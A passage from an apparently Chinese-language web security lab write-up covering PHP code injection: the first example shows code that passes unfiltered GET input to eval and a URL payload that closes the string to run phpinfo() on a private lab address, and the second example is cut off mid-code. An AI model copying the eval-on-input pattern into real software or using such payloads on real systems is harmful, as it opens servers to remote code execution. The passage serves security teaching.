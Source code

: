 ### 2.1.5 Code injection Example 1

未做过滤，可以进行闭合触发漏洞。

```bash
<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";

  eval($str);
?>
```

[http://192.168.245.131/codeexec/example1.php?name=%22;phpinfo();//](http://192.168.245.131/codeexec/example1.php?name=%22;phpinfo();//)  
[![](assets/1704850598-0b4322e9a5977b79285317648abbba3a.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/zLxDoPz6tjQAhW9w.png)

### 2.1.6 Code injection Example 2

create\_function 类似于 function test($args){方法代码部分}，然后通过闭合

```bash
<?php
class User{
  public $id, $name, $age;
  function __construct($id, $name, $age){
    $this->name= $name;
    $this->age = $age;
    $this->id = $id;
  }   
}
  require_once('../header.php');
  require_once('../sqli/db.php');
   $sql = "SELECT * FROM users ";

   $order = $_GET["order"];
   $result = mysql_query($sql);
```